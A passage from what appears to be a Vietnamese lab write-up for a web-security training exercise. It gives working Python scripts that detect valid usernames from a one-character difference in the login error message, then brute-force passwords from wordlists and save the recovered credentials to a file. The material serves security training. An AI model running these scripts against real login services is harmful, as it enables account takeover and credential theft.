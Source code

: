 ```python
    print("No password")
    exit(1)

print(f"{username}:{password}")
with open("credential.txt", 'w') as file:
    file.write(f"{username}:{password}")
```

### Username enumeration via subtly different responses

Tương tự bài đầu tiên. Tuy nhiên trong bài này, server sẽ trả về `Invalid username or password.` nếu username sai và `Invalid username or password` nếu username đúng còn password sai.

```python
import requests

url = "https://ace21f881e9bf6fdc19f484400170075.web-security-academy.net/login"

status_code = requests.get(url=url).status_code
if status_code != 200:
    print(f'Status code: {status_code}')
    exit(status_code)

username = None
password = None

for uname in open('username.txt').readlines():
    uname = uname[:-1]
    data = {
        'username': uname,
        'password': 'a'
    }
    print(uname)
    res = requests.post(url=url, data=data).content
    with open('res.html', 'wb') as file:
        file.write(res)

    if b'Invalid username or password.' not in res:
        username = uname
        break

if username is None:
    print("No username")
    exit(1)

for pwd in open('password.txt').readlines():
    pwd = pwd[:-1]
    data = {
        'username': username,
        'password': pwd
    }
    print(data)
    res = requests.post(url=url, data=data).content
    with open('res.html', 'wb') as file:
        file.write(res)

    if b'Invalid username or password' not in res:
        password = pwd
        break

if password is None:
    print("No password")
    exit(1)

```